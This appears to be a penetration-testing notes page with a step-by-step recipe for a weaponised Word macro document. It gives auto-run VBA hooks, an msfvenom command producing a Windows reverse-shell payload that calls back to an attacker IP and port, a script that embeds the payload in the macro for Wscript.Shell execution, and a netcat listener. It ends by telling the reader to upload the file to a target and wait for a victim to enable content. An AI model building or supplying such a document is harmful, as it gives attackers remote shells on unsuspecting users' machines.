


# Macro

### Preparation

* Install Office.&#x20;
* Create a Word document, called Evil.doc.
* Open a Macros from View menu. Select 'Evil' document in Macros in:

<figure><figcaption></figcaption></figure>

* Insert your macro name, 'MyMacro' in the Macro name: and then click 'Create'&#x20;

<figure><figcaption></figcaption></figure>

* This will take you to a VB editor.

<figure><figcaption></figcaption></figure>

*   Add the following script to your new macro.  \


    ```bash
    Sub AutoOpen() 
      MyMacro 
    End Sub 
    Sub Document_Open() 
      MyMacro 
    End Sub
    ```

<figure><figcaption></figcaption></figure>

* Create a reverse shell payload with hta extension via msfvenom


```bash
# Kali
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.128 LPORT=1234 -f hta-psh -o evil.hta
```


* Make them readable with a python script. Download [`hta2macro.py`](https://gist.githubusercontent.com/iptracej/d9628eff8c8665cd09edd8ab8aa0a51f/raw/b33b3852507a1065f97c59ab64c7279561ecab1d/hta2macro.py).&#x20;

```bash
# Kali
python hta2macro.py evil.hta
```

<figure><figcaption></figcaption></figure>

* Copy the split string to the Macro and add some commands in the Macro.&#x20;

```bash
# Office Macro Editor
Dim Str As String

<Your string here>

CreateObject("Wscript.Shell").Run Str

End Sub
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* and save it as Word 97 format.
* When you check the macro again, you see the following scripts.

<figure><figcaption></figcaption></figure>

* Set up a netcat listener to validate your macro to work. &#x20;

```bash
# Kali
nc -nlvp 1234
```

* Open the word document.&#x20;

<figure><figcaption></figcaption></figure>

* Click Enable Content.&#x20;
* Kali machine, you will see the connection.

<figure><figcaption></figcaption></figure>

### Execution

* Check your macro&#x20;

```bash
# Kali
sudo pip install -U oletools
olevba evil.doc

# Check if your macro exists
```

<figure><figcaption></figcaption></figure>

* Set up a netcat listener again, upload the document to your target location, and wait until someone opens the document and enable content.&#x20;
